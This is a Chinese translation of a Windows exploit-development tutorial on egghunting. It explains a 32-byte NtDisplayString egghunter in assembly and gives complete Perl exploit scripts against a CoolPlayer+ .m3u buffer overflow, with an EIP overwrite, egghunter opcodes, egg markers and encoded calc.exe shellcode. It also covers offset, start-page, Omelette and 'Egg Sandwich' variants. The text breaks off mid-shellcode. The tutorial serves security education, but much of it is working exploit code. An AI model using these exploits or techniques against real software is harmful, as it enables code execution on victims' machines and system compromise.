


#### 翻译自 [这里](http://www.securitysift.com/windows-exploit-development-part-5-locating-shellcode-egghunting/)，转发请标注原作者
2022-6-10
***

### 序言

在第 4 部分中，我们研究了如何使用各种 jump 方法查找和执行您的 shellcode。在第 5 部分中，我们将介绍另一种查找 shellcode 的方法，称为 Egghunting。当您面对一个小的、可访问的缓冲区（您可以在其中执行代码）但较大的 shellcode 在内存中的位置是不可预测的时，此方法特别有用。这篇文章将涉及相当多的细节，但我会尽可能清楚地解释所有内容。让我们开始吧。

### 介绍 win32 Egghunter

当我们在第 4 部分检查使用 jump 到达 shellcode 时，我们需要一个条件，我们的 shellcode 在可预测的位置。即使我们的寄存器只指向缓冲区的一小部分，只要我们可以使用该空间跳转到包含我们的 shellcode 的另一个已知位置，我们就可以执行我们的漏洞利用。但是当你有一小部分缓冲区可用但不能使用典型的跳转技术到达你的 shellcode 时会发生什么（因为没有可用的 jump 指令，它太远了，或者它的位置是动态的，不可预测的），对于这些情况，我们可以使用一种称为 Egghunting 的技术。使用 Egghunting，我们将使用最小的缓冲区空间（可通过我们的 EIP 覆盖访问）来托管一个小型有效负载，该有效负载仅在内存中搜索 shellcode 并跳转到它。能够使用 Egghunter 技术有两个基本的先决条件。

1. 首先，你必须有一个最小数量的可预测内存，使你可以跳转到其中保存小的 Egghunter 代码。 
2. 其次，您的 shellcode 必须在内存中的某个位置（在栈或堆上）完整可用。

请记住，因为我们正在处理有限的缓冲区空间，所以 Egghunter 本身应该尽可能小，以便在这些情况下有效。要了解 Egghunting 背后的细节，您的第一个资源应该是 [Matt Miller 的 (skape)](http://www.nologin.com/Downloads/Papers/egghunt-shellcode.pdf)，在其中，他描述了可以使用 Egghunters 搜索可用内存以定位和执行其他难以找到的漏洞利用代码的各种方法。他提供了几个基于 Linux 和 Windows 的示例，其中一些比其他的更优化。出于本教程的目的，我将只关注使用 NtDisplayString 的最小（仅 32 字节，最优化的 Windows 版本。请注意，此方法仅适用于 32 位 NT 版本的 Windows。以下所有示例均在 Window XP SP3 上进行了测试。目前我将按下不表，直到我在后面的文章中讨论基于 Windows 的 64 位漏洞利用。

### 使用 Egghunter

这是它的工作原理。

1. 在你的 shellcode 前面加上一个 8 字节的标签（“egg”）
2. 使用 EIP 覆盖跳转到一个可预测的位置，该位置包含一个小型汇编语言例程（“Egghunter”），该例程在内存中搜索“egg”，找到后跳转到它以执行 shellcode。

egg 将是一个 4 字节的字符串，重复一次。假设我们的字符串是“PWND”，我们添加到 shellcode 中的 egg 将是 PWNDPWND 。重复的原因是为了确保当我们在内存中找到它时，我们可以验证我们确实找到了我们的 shellcode（而不是 4 个字节的随机集合，或者 Egghunter 例程本身）——这是一个双重检查，表明我们已经达到了我们的shellcode。

我们将要实现的 Egghunter 将使用（利用）NtDisplayString，这是一个只读函数，旨在接受单个参数（指向字符串的指针）并显示它

````c++
NTSYSAPI NTSTATUS NTAPI NtDisplayString(
          IN PUNICODE_STRING String
);
````

我们将不使用该函数的预期功能，显示字符串，而是按顺序处理内存地址指针并将它们传递给它。一次一个。如果函数在尝试从该内存位置读取时返回访问冲突错误，则我们知道我们已经到达了不可访问的内存部分，并且必须在其他地方寻找我们的 shellcode。如果它没有返回错误，我们知道我们可以检查我们的 egg 内存位置的内容。这是一个简单而优雅的解决方案在可用内存中寻找我们的 egg。这是代码（改编自 Skape 在[此处](http://www.hick.org/~mmiller/shellcode/win32/egghunt_syscall.c)找到的原始版本）。注意：在这个版本中，他使用 NtAccessCheckAndAuditAlarm 而不是 NtDisplayString。正如他在他的论文中解释的那样（参见前面的链接），它们都具有相同的目的，并且在代码层次的唯一区别是系统调用号。

```assembly
entry:
loop_inc_page:
or dx, 0x0fff // loop through memory pages by adding 4095 decimal or PAGE_SIZE-1 to edx

loop_inc_one:
inc edx // loop through addresses in the memory page one by one

make_syscall:
push edx // push edx value (current address) onto the stack to save for future reference
push 0x43 // push 0x43 (the Syscall ID for NtDisplayString) onto the stack
pop eax // pop 0x43 into eax to use as the parameter to syscall
int 0x2e // issue the interrupt to call NtDisplayString kernel function

check_is_valid:
cmp al, 0x05 // compare low order byte of eax to 0x5 (5 = access violation)
pop edx // restore edx from the stack
jz loop_inc_page // if the zf flag was set by cmp instruction there was an access violation
// and the address was invalid so jmp back to loop_inc_page
is_egg:
mov eax, 0x444e5750 // if the address was valid, move the egg into eax for comparison
mov edi, edx // set edi to the current address pointer in edx for use in the scasd instruction
scasd // compares value in eax to dword value addressed by edi (current address pointer)
// and sets EFLAGS register accordingly; after scasd comparison,
// EDI is automatically incremented by 4 if DF flag is 0 or decremented if flag is 1
jnz loop_inc_one // egg not found? jump back to loop_inc_one
scasd // first 4 bytes of egg found; compare the dword in edi to eax again
// (remember scasd automatically advanced by 4)
jnz loop_inc_one // only the first half of the egg was found; jump back to loop_inc_one

found:
jmp edi //egg found!; thanks to scasd, edi now points to shellcode
```

让我们从 loop_inc_page 开始详细介绍代码。首先，or 指令通过将 page_size – 1（或 4095）添加到 EDX 中的当前地址来提出要搜索的下一个内存页面，并将结果存储在 EDX 中。下一条指令将 EDX 的值加 1。这有效地将我们带到了我们要搜索的页面中的第一个地址。您可能想知道为什么我们没有将 4096 放入 EDX，而是将其分成两条指令。原因是因为我们需要维护两个独立的循环，一个循环遍历每个页面，另一个循环遍历有效页面的每个地址。


随着每个地址的递增，我们调用 NtDisplayString 以查看它是否有效。在此之前，EDX 中的值必须保存到栈中，因为我们需要在系统调用之后返回该位置；否则它将被系统调用指令破坏。保存 EDX 后，我们将 NtDisplayString (43) 的系统调用号加载到 EAX 中。 如果您想查找各种 Windows 系统调用的编号，请查看此[资源](http://j00ru.vexillium.org/ntapi/)。


保存 EDX 并将系统调用参数加载到 EAX 中后，我们就可以发出中断并进行系统调用了。进行系统调用后，如果尝试读取该内存位置导致访问冲突，EAX 将加载 0x5。如果发生这种情况，我们知道我们正在尝试从无法访问的内存页面读取，因此我们返回 loop_inc_page 并将下一个内存页面加载到 EDX 中。

*关于int 2E系统指令的[参考链接 ](https://www.marbacka.net/blog/int2e_sysenter_syscall/)*


一旦找到有效的内存地址，执行流程就会转移到 is_egg。现在它找到了一个有效地址，下一步是将我们的 egg 与该地址的内容进行比较。为此，我们将 egg 加载到 EAX 中并将我们的有效地址从 EDX move（copy）到 EDI 以供下一个 SCASD 指令使用。

您可能想知道为什么我们不直接将 EAX 中的值与 EDX 中的值进行比较。这是因为使用 SCASD 指令实际上更有效，因为它不仅设置了跟随跳转，而且在每次比较后它还会自动将 EDI 增加 4 个字节。这允许我们检查 egg 的两半，并在找到鸡蛋后立即跳转到我们的 shellcode，而不需要不必要的汇编指令。

如果 EAX 的内容和 EDI 中的内存地址指向的内容不匹配，证明我们还没有找到我们的 egg，所以执行流程循环回到 INC EDX 指令，该指令将获取当前页面中的下一个地址进行比较。



一旦找到 egg 前半部分，就重复 SCASD 指令以检查后半部分。如果这也匹配成功，我们知道我们已经找到了我们的 egg，然后我们跳转到 EDI，由于 SCASD 指令，它现在直接指向我们的 shellcode。


现在您了解了 Egghunter 的工作原理，让我们看看如何将其合并到我们的漏洞利用中。我将再次使用第 4 部分中的 CoolPlayer 漏洞利用。如果您还记得，在第 4 部分中，在进行 EIP 覆盖时，ESP 仅指向我们缓冲区的一小部分，这对于我们的 shellcode 来说太小了，但对于 egghundter来说绰绰有余了。让我们更新我们之前的漏洞利用脚本。

首先，我们需要获取汇编指令的操作码并将它们转换为我们的 Perl 脚本的十六进制格式。根据您编写 Egghunter 的方式（MASM、C 等），您可以通过不同的方式提取相关的操作码。对于这个演示，我将在我的 Egghunter 可执行文件（从我之前提供的 C 代码编译）运行时从 Immunity 中获取它们。


如果您使用此方法，您可以将其复制到剪贴板或将其导出到文件，然后使用命令行脚本将其转换为脚本友好的十六进制，例如

```bash
root@kali:/demos# cat egghunter_opcode.txt | cut -c14-28 | tr -d '\040\072\012\015' | sed -e 's/\(..\)/\1\\x/g' -e 's/^/$egghunter = \"\\x/' -e 's/.\{2\}$/";/'
```

这将产生以下输出

```bash
$egghunter = "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x43\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x50\x57\x4E\x44\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7";
```

出于本演示的目的，我将用注释分解十六进制，以便您可以轻松地将其与相应的汇编指令匹配。在这里，它被合并到我们在第 4 部分中编写的漏洞利用脚本中

```perl
#!/usr/bin/perl
###########################################################################################
# Exploit Title: CoolPlayer+ Portable v2.19.4 - Local Buffer Overflow Shellcode Jump Demo
# Date: 12-24-2013
# Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
# Vulnerable Software: CoolPlayer+ Portable v2.19.4
# Software Link: http://portableapps.com/apps/music_video/coolplayerp_portable
# Tested On: Windows XP SP3
# Based on original POC exploit: http://www.exploit-db.com/exploits/4839/
# Details: Egghunter Demo
###########################################################################################

my $buffsize = 10000; # set consistent buffer size

my $junk = "\x90" x 260; # nops to slide into $jmp; offset to eip overwrite at 260
my $eip = pack('V',0x7c86467b); # jmp esp [kernel32.dll]
my $egghunter = "\x66\x81\xCA\xFF\x0F"; # or dx,0x0fff
$egghunter = $egghunter . "\x42"; # inc edx by 1
$egghunter = $egghunter . "\x52"; # push edx to t
$egghunter = $egghunter . "\x6A\x43"; # push byte +0x43
$egghunter = $egghunter . "\x58"; # pop eax
$egghunter = $egghunter . "\xCD\x2E"; # int 0x2e
$egghunter = $egghunter . "\x3C\x05"; # cmp al,0x5
$egghunter = $egghunter . "\x5A"; # pop edx
$egghunter = $egghunter . "\x74\xEF"; # jz 0x0
$egghunter = $egghunter . "\xB8\x50\x57\x4e\x44"; # mov eax,PWND
$egghunter = $egghunter . "\x8B\xFA"; # mov edi,edx
$egghunter = $egghunter . "\xAF"; # scasd
$egghunter = $egghunter . "\x75\xEA"; # jnz 0x5
$egghunter = $egghunter . "\xAF"; # scasd
$egghunter = $egghunter . "\x75\xE7";#jnz 0x5
$egghunter = $egghunter . "\xFF\xE7"; #jmp edi

my $egg = "\x50\x57\x4e\x44\x50\x57\x4e\x44"; #PWNDPWND
my $nops = "\x90" x 50;

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
"\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
"\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
"\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
"\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
"\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
"\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
"\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
"\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
"\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
"\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
"\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
"\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
"\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
"\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
"\x9a\xca\xc0";

my $sploit = $junk.$eip.$egghunter.$egg.$nops.$shell; # build sploit portion of buffer
my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
my $buffer = $sploit.$fill; # build final buffer

# write the exploit buffer to file
my $file = "coolplayer.m3u";
open(FILE, ">$file");
print FILE $buffer;
close(FILE);
print "Exploit file [" . $file . "] created\n";
print "Buffer size: " . length($buffer) . "\n";
```

另请注意，我添加了 $egg 并将它和 Egghunter 合并到缓冲区的 $sploit 部分中。在 CoolPlayer+ 中尝试生成的 .m3u 文件，您应该会得到

```
Access violation when writing to [XXXXXXXX] - use Shift+F7/F8/F9 to pass exception to program
```

让我们仔细看看发生了什么。以下相应内存 dump 的屏幕截图显示了发生此访问冲突的位置


如果你仔细观察，你会注意到虽然我们看到了 shellcode 的开头（以“PWNDPWND”开头），但 shellcode 并不完整，这就是导致我们的漏洞利用崩溃的原因。我们的 shellcode 的这个损坏版本是第一个出现在内存中的，而 Egghunter 还不够聪明，无法知道其中的区别，它只是被设计为在它找到的第一个“PWNDPWND”之后执行指令。如果我们的 shellcode 完好无损地保存在内存中的某个位置，那么 Egghunter 漏洞利用仍然是可能的。

我们可以使用 mona 来找出


标记为“[Stack]”的前两个条目都出现在前面的屏幕截图中，并且都是我们的 shellcode 的损坏版本。这留下了堆中的第三个条目。双击该条目以在内存中查看它。


完好无损。但是我们如何让我们原本“愚蠢”的 Egghunter 跳过内存中前两个损坏的条目并执行第三个呢？我们有几个选择。

* 修改 shellcode 偏移量 

* 更改 Egghunter 搜索的起始内存页面 

* shellcode 拆分成更小的部分（“Omelette” Egghunter） 

* 为我们的 Egghunter 添加一些额外的错误检查（“Egg Sandwich” Egghunter）

#### shellcode 偏移量 

解决此问题的最简单方法之一是将 shellcode 进一步“推送”到内存中，这样就永远不会制作早期的副本，并且（希望）Egghunter 到达的第一个副本是完整的。 让我们用我们的 CoolPlayer 漏洞来尝试一下。添加一个新变量 $offset 并将其插入缓冲区，如下所示


运行新的 .m3u 文件


您可以通过再次运行 mona 搜索来理解为什么


这一次，偏移量将 shellcode 推到了我们的缓冲区中足够远的地方，因此没有损坏的副本被放置在栈上，只剩下堆中的完整副本。

#### 更改 Egghunter 的起始内存页面

如果我们可以预测损坏的副本将驻留在哪里，我们可以简单地告诉 Egghunter 注意这些内存地址。这可以通过多种方式完成，但对于这个演示，我将使用现有的寄存器和 ADD 指令。 

从之前的 mona 搜索中，我们知道两个损坏的副本都位于 0x0012F1AC 和 0x0012F31C，所以我们需要做的就是在这些地址之后启动我们的 Egghunter。为此，我们需要在加载第一个内存页之前更改 ebx 的值。

按原样启动漏洞利用并在 Egghunter 例程的最开始暂停执行以检查堆栈。查看ESP


我们需要从 0x0012F31C 开始。从中减去 ESP，你会得到，0x190 或 十进制的 400 。因此，我们可以使用 EDX 加载 ESP，然后将 400+ 添加到 EDX 以将起始内存页面推送到损坏的 shellcode 之外。 Egghunter 的更新版本如下。注意我必须分解 ADD EDX 指令以避免 NULL byte 。

```assembly
my $egghunter =           "\x89\xe2"; # mov ebx, esp
 $egghunter = $egghunter . "\x83\xc2\x7d" x 4; # add edx, 125 (x4)
 $egghunter = $egghunter . "\x66\x81\xCA\xFF\x0F"; # or dx,0x0fff
 $egghunter = $egghunter . "\x42"; # inc edx by 1
 $egghunter = $egghunter . "\x52"; # push edx to t
 $egghunter = $egghunter . "\x6A\x43"; # push byte +0x43
 $egghunter = $egghunter . "\x58"; # pop eax
 $egghunter = $egghunter . "\xCD\x2E"; # int 0x2e
 $egghunter = $egghunter . "\x3C\x05"; # cmp al,0x5
 $egghunter = $egghunter . "\x5A"; # pop edx
 $egghunter = $egghunter . "\x74\xEF"; # jz 0x0
 $egghunter = $egghunter . "\xB8\x50\x57\x4e\x44"; # mov eax,PWND
 $egghunter = $egghunter . "\x8B\xFA"; # mov edi,edx
 $egghunter = $egghunter . "\xAF"; # scasd
 $egghunter = $egghunter . "\x75\xEA"; # jnz 0x5
 $egghunter = $egghunter . "\xAF"; # scasd
 $egghunter = $egghunter . "\x75\xE7";#jnz 0x5
 $egghunter = $egghunter . "\xFF\xE7"; #jmp edi
```

这是执行新的 mov/add 指令后的 EDX（以及我们新的起始内存页面）


我们已经成功地绕过了损坏的 shellcode。



由于一个 Egghunter 的关键特性之一是尽可能小，这些额外的 14 字节指令可以被视为负面的，但如果你有多余的空间，这是一个可行的选择。或者，您可以考虑尝试使用更有效的方法来加载具有更大地址的 EBX。

#### Omelette Egghunter

Omelette Egghunter 的想法是将您的 shellcode 分成多个块，每个块都以自己的 egg 开头以及包含两条信息的附加标签：

1) 指示它是否是最后一个 shellcode 块 
2) shellcode 块的长度。

如果您知道您的 shellcode 在大块中保存时会损坏，但如果将其分成足够小的部分可以保持完整，则此方法可能很有用。在更高的层次上它是这样工作的

假设这是你的 shellcode

保持原样的话，内存中没有足够的空间来容纳它，所以我们想把它分成三个块。我们将使用相同的 egg  (PWNDPWND)。我们还需要在这个 egg 上附加一个两字节的标签。第一个字节是块标识符，你可以使用任何标识符，但最后一个块必须与前面的块不同，以便 Egghunter 知道它何时到达 shellcode 的末尾。您可以将 \x01 用于最后一个块，将 \x02 用于所有前面的块。第二个字节是 shellcode 块的大小。在这个基本示例中，所有三个块的长度都是 4 个字节，因此标签的第二个字节将是 \x04。请注意，由于大小存储为单个字节，因此每个块的大小限制为 255 个字节。

因此，这三个块将如下所示

```
"\x50\x57\x4e\x44\x50\x57\x4e\x44\x02\x04\x41\x41\x41\x41"
"\x50\x57\x4e\x44\x50\x57\x4e\x44\x02\x04\x42\x42\x42\x42"
"\x50\x57\x4e\x44\x50\x57\x4e\x44\x01\x04\x43\x43\x43\x43"
```

Omelette Egghunter 代码定位每个块并按顺序将它们写入栈以重新组装和执行 shellcode。我不打算解释 Omelette Egghunter 代码，但我鼓励您看一下这里的[示例](http://www.thegreycorner.com/2013/10/omlette-egghunter-shellcode.html)。

这是一个非常有用的概念，但确实存在一些缺陷。首先，shellcode 块必须按顺序放入内存中，这是您可能无法控制的。其次，重新组装的 shellcode 被写入 ESP，你可能会覆写一些重要的东西，包括 Egghunter 本身。（这两个问题我都遇到过）。第三，为了利用这个附加的功能，你增加了额外的大小，在上面的链接中找到的 omelette 示例是 53 字节，而 NtDisplayString Egghunter 是 32 字节。此外，与 NtDisplayString Egghunter 类似，它会抓取它在内存中到达的第一个带有鸡蛋的 shellcode，而无需验证它是否是损坏的副本。 、

尽管存在这些潜在的缺点，但 Omelette Egghunter 可能适合某些情况，因此请记住这一点。

#### Egg Sandwich Egghunter

当我在考虑针对损坏的 shellcode 的各种解决方案时，我认为应该可以让 Egghunter 在执行之前验证 shellcode 的完整性，以确保它找到了完整的版本。这样，就无需担心有多少损坏的 shellcode 版本可能驻留在内存中，也无需担心更改偏移量或内存页面。此外，在诸如 CoolPlayer 之类的漏洞利用中，由于完整的副本确实驻留在内存中的某个位置，因此无需将 shellcode 分解成更小的块（如 Omelette 示例中所示）。

这是我的基本概念：对于 Egg Sandwich Egghunter，你需要两个 8 字节的 egg，一个放在 shellcode 的开头，一个放在结尾。 开头的 egg 还包含一个类似于 Omelette Egghunter 的双字节标签，第一个字节标识 egg 编号 (\x01)，第二个字节是第二个 egg 的偏移量（等于 shellcode 的长度）。第二个附加的 egg 也将包含一个双字节标签，第一个字节是 egg 编号（\x02），第二个字节是 shellcode 开头的偏移量（等于 shellcode 的长度 + 第二个 egg 的长度）。

假设我们使用 227 字节的 calc.exe shellcode 和 PWNDPWND egg，Egg Sandwich 中的第一个 egg 如下所示。

```
\x50\x57\x4e\x44\x50\x57\x4e\x44\x01\xe3
```

第二个 egg 如下所示。

```
\x50\x57\x4e\x44\x50\x57\x4e\x44\x02\xeb
```

注意第一个 egg 的大小标签是 \xe3（或 227，shellcode 的长度），而第二个是 \xeb（shellcode + 8 = 235）.

Egghunter 代码正常定位第一个 egg。然后它读取 egg 编号标签以验证它是否找到了第一个 egg，并使用偏移标签跳转到第二个 egg 。然后它检查以确保第二个找到的 egg 确实是下一个 egg（通过验证它的编号），然后使用偏移标签跳回到 shellcode 的开头来执行。 以任何方式添加或减去字节的任何损坏的 shellcode 副本都将无法通过第二次 egg 检查并被跳过。损坏的 egg 过此验证步骤的唯一方法是保持与原始 egg 完全相同的字节数。

```perl
#!/usr/bin/perl
###########################################################################################
# Exploit Title: CoolPlayer+ Portable v2.19.4 - Local Buffer Overflow Shellcode Jump Demo
# Date: 12-24-2013
# Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
# Vulnerable Software: CoolPlayer+ Portable v2.19.4
# Software Link: http://portableapps.com/apps/music_video/coolplayerp_portable
# Tested On: Windows XP SP3
# Based on original POC exploit: http://www.exploit-db.com/exploits/4839/
# Details: Egg Sandwich Egghunter Demo
###########################################################################################

my $buffsize = 10000; # set consistent buffer size

my $junk = "\x90" x 260; # nops to slide into $jmp; offset to eip overwrite at 260
my $eip = pack('V',0x7c86467b); # jmp esp [kernel32.dll]

# loop_inc_page:
my $egghunter = "\x66\x81\xca\xff\x0f"; # OR DX,0FFF ; get next page 

# loop_inc_one:
$egghunter = $egghunter . "\x42"; # INC EDX ; increment EDX by 1 to get next memory address

# check_memory:
$egghunter = $egghunter . "\x52"; # PUSH EDX ; save current address to stack
$egghunter = $egghunter . "\x6a\x43"; # PUSH 43 ; push Syscall for NtDisplayString to stack
$egghunter = $egghunter . "\x58"; # POP EAX ; pop syscall parameter into EAX for syscall
$egghunter = $egghunter . "\xcd\x2e"; # INT 2E ; issue interrupt to make syscall
$egghunter = $egghunter . "\x3c\x05"; # CMP AL,5 ; compare low order byte of eax to 0x5 (indicates access violation)
$egghunter = $egghunter . "\x5a"; # POP EDX ; restore EDX from the stack
$egghunter = $egghunter . "\x74\xef"; # JE SHORT ;if zf flag = 1, access violation, jump to loop_inc_page

# check_egg
$egghunter = $egghunter . "\xb8\x50\x57\x4e\x44"; # MOV EAX,444E5750 ; valid address, move egg value (PWND) into EAX for comparison
$egghunter = $egghunter . "\x8b\xfa"; # MOV EDI,EDX ; set edi to current address pointer for use in scasd
$egghunter = $egghunter . "\xaf"; # SCASD ; compare value in EAX to dword value addressed by EDI
# ; increment EDI by 4 if DF flag is 0 or decrement if 1
$egghunter = $egghunter . "\x75\xea"; # JNZ SHORT ; egg not found, jump back to loop_inc_one
$egghunter = $egghunter . "\xaf"; # SCASD ; first half of egg found, compare next half
$egghunter = $egghunter . "\x75\xe7"; # JNZ SHORT ; only first half found, jump back to loop_inc_one

# found_egg
$egghunter = $egghunter . "\x8b\xf7"; # MOV ESI,EDI ; first egg found, move start address of shellcode to ESI for LODSB
$egghunter = $egghunter . "\x31\xc0"; # XOR EAX, EAX ; clear EAX contents
$egghunter = $egghunter . "\xac"; # LODSB ; loads egg number (1 or 2) into AL
$egghunter = $egghunter . "\x8b\xd7"; # MOV EDX,EDI ; move start of shellcode into EDX
$egghunter = $egghunter . "\x3c\x01"; # CMP AL,1 ; determine if this is the first egg or last egg
$egghunter = $egghunter . "\xac"; # LODSB ; loads size of shellcode from $egg1 into AL
$egghunter = $egghunter . "\x75\x04"; # JNZ SHORT ; cmp false, second egg found, goto second_egg

# first_egg
$egghunter = $egghunter . "\x01\xc2"; # ADD EDX, EAX ; increment EDX by size of shellcode to point to 2nd egg
$egghunter = $egghunter . "\x75\xe3"; # JNZ SHORT ; jump back to check_egg

# second_egg
$egghunter = $egghunter . "\x29\xc7"; # SUB EDI, EAX ; decrement EDX to point to start of shellcode
$egghunter = $egghunter . "\xff\xe7"; # JMP EDI ; execute shellcode

my $nops = "\x90" x 50;
my $egg1 = "\x50\x57\x4e\x44\x50\x57\x4e\x44\x01\xe3"; # egg = PWNDPWND; id = 1; offset to egg2 = 227

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
"\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
"\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
"\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
"\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
"\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
"\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
"\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
"\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
"\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
"\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
"\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
"\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
"\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
